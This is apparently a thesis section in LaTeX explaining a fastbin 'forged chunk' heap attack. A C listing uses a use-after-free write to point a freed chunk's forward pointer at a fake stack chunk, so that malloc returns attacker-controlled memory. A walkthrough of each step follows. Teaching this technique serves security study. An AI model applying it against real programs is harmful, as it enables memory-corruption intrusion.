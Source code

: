 \documentclass{masterthesis}
\begin{document}
\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so, we can implement an attack on the heap data structure by taking control of the pointer . Below code shows how we can return our forged chunk instead of a real heap chunk: 
\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
 size_t prev_size;
 size_t size;
 struct forged_chunk *fd;
 struct forged_chunk *bck;
 char buf[10];        // padding
};
a = malloc(10);        // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;  // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;  
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);          // Will return 0x219c010
victim = malloc(10);     // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory ‘a’ with 10-Byte size, also, Create our fake chunk with size 0x20. Chunk size is important It must fall in fastbin chunks size because fastbin has a security check on chunk size while removing it from the list.
Now by call free(a), the real chunk is put back in the fast bins. As we tell, we free up space but the pointer still points to chunk memory location. By accessing the pointer, we make the forward pointer of freed chunk ‘a’ to point to the forged chunk. The current layout of the heap is like below now : 

\begin{lstlisting}[language=c,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk will be holding attacker's data)
\end{lstlisting}

In the following by first allocated ‘a’ again, the heap manager returns the 'a' from the fast bin, following that, our forged chunk be at the head, so, next allocation return it instead of a real chunk
\end{document}

